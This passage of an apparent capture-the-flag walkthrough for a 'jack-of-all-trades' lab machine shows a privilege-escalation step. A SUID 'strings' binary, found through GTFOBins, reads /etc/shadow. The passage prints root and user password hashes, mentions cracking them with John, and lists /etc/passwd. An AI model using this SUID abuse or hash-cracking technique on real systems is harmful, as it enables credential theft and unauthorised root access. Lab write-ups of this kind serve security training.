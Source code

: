 13.
using GTFOBINS found an exploit for strings with suid bit set. Using this binary we can read files which as root permissions (current user cannot access it)

Exploit and values of /etc/shadow

jack@jack-of-all-trades:~$ LFILE='/etc/shadow'
jack@jack-of-all-trades:~$ strings $LFILE
root:$6$b3.jqCVW$RhHJyUpN81dfuW6J..8rTYX..7msovXxtbwQX4w8SIqxTuGOGpuKVft.1Cw1yvpGiHh2LULov1EA5H2m33dPk/:18321:0:99999:7:::
daemon:*:16550:0:99999:7:::
bin:*:16550:0:99999:7:::
sys:*:16550:0:99999:7:::
sync:*:16550:0:99999:7:::
games:*:16550:0:99999:7:::
man:*:16550:0:99999:7:::
lp:*:16550:0:99999:7:::
mail:*:16550:0:99999:7:::
news:*:16550:0:99999:7:::
uucp:*:16550:0:99999:7:::
proxy:*:16550:0:99999:7:::
www-data:*:16550:0:99999:7:::
backup:*:16550:0:99999:7:::
list:*:16550:0:99999:7:::
irc:*:16550:0:99999:7:::
gnats:*:16550:0:99999:7:::
nobody:*:16550:0:99999:7:::
systemd-timesync:*:16550:0:99999:7:::
systemd-network:*:16550:0:99999:7:::
systemd-resolve:*:16550:0:99999:7:::
systemd-bus-proxy:*:16550:0:99999:7:::
uuidd:*:16550:0:99999:7:::
Debian-exim:!:16550:0:99999:7:::
messagebus:*:16550:0:99999:7:::
statd:*:16550:0:99999:7:::
avahi-autoipd:*:16550:0:99999:7:::
sshd:*:16550:0:99999:7:::
jack:$6$X4GueAFP$m2Ovdp1jLV3OX3B40CkxQd0LTk8l2vLr0UplPHA0gm1e5bzwWLRGyUwnU94TdfWzgRjmhLyXOcacx0SE5VshN1:18321:0:99999:7:::

Now we will exploit it using john

jack@jack-of-all-trades:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false